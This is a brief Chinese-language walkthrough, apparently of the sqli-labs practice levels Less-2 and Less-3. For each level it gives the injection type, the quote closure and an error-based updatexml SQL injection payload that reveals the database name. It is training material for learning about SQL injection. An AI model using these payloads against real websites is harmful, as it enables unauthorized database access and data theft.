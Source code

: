 ### Less-2：GET - Error based - lntiger based

**注入类型**

报错注入

**闭合方式**

id=\$id

```sql
//爆数据库
and updatexml(1,concat(0x7e,database(),0x7e),1) 
```

![](file/image_i__odmIBIT.png)

### Less-3：GET -Error based - Single quotes with twist - string

**注入类型**

报错注入

**闭合方式**

id=('\$id')

```sql
//爆数据库
and updatexml(1,concat(0x7e,database(),0x7e),1) --+
```
